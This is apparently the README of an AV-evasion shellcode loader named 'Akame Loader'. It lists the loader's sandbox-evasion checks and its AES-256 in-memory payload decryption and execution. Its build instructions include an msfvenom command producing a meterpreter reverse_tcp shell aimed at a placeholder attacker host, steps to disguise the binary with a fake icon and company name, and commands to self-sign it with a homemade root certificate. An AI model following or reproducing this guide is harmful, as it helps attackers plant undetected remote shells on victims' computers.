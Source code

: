 ## How does it work?
1. Uses WINAPI WinMain so it doesn't popup any console window
2. Checks the current hard disk, if the size is under 100GB it closes itself
3. Sleeps for 10000ms (10s)
4. Checks if any tickcount-related function was manipulated by a sandbox (by checking the hashes and comparing the time slept with the time elapsed on the machine), if something seems wrong, it closes itself
5. Stores the IV, the encryption Key, and the encrypted payload as buffers
6. Allocates a memory buffer for the payload
7. Decrypts the payload (AES256) and closes itself if something doesn't work correctly
8. Copies the payload to a new buffer
9. Marks the memory space as executable (This is not done during the first allocation because it's suspicious to create a memory space which is ReadWriteExecute)
10. Executes the payload

## How to build?
**1. Generate shellcode<br>**
- Metasploit: <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=*IP* LPORT=*PORT* -f raw > shellcode.bin
- Native PE: <br>
use [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode) to generate the shellcode
- Managed PE: <br>
use [donut](https://github.com/TheWover/donut) to generate the shellcode

**2. Encrypt your shellcode with encrypt.exe<br>**
- Metasploit: <br>
`mv shellcode.bin \Akame Loader\x64\Release\Resources\` <br>
`cd \Akame Loader\x64\Release\Resources\` <br>
`encrypt --help (optional, to view the manual)`<br>
`encrypt.exe -l cpp -m file -i shellcode.bin -e random -o cli`<br>
- Other: <br>
Use a python script ([example](https://github.com/djackreuter/shellcode-encryption)) to encrypt the shellcode with AES256.

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV Key, your KEY and your shellcode into the existent buffers<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Platform Toolset: Visual Studio 2022 (v143)<br>
- Language standard: ISO C++17<br>
- Optimization: /O2 <br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
- Generate debug info: No
  
**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to your executable and AkameCert/AkameCA to whatever you want<br>
- `move Akame.exe Resources && cd Resources`<br>
- `makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer`<br>
- `certutil -user -addstore Root AkameCA.cer`<br>
- `makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer`<br>
- `pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx`<br>
- `signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe`
  